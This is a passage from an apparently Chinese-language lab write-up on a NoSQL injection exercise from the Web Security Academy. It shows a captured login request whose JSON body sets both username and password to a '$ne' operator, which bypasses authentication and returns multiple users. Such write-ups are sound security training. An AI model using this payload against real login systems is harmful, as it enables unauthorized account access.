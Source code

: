 ```plain
```

![图片](assets/1711872140-f4a8fd35cc565a374e19a5820d78e5c5.webp)

随后将 username 参数设置为{"$ne":""}时，将 password 参数的值从"peter"更改为{"$ne":""}，然后再次发送请求，这会导致查询返回意外数量的记录，这表示已选择多个用户

```plain
POST /login HTTP/1.1
Host: 0a4f0028031131c6805b354a00b5009a.web-security-academy.net
Connection: close
Content-Length: 45
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://0a4f0028031131c6805b354a00b5009a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a4f0028031131c6805b354a00b5009a.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=6g2cQrl6PQhnpe6DqOQhgVmNPzauLgHB

{"username":{"$ne":""},"password":{"$ne":""}}
```

![图片](assets/1711872140-f8e479c0fd94d5a4f8afc4834fe7c0bf.webp)
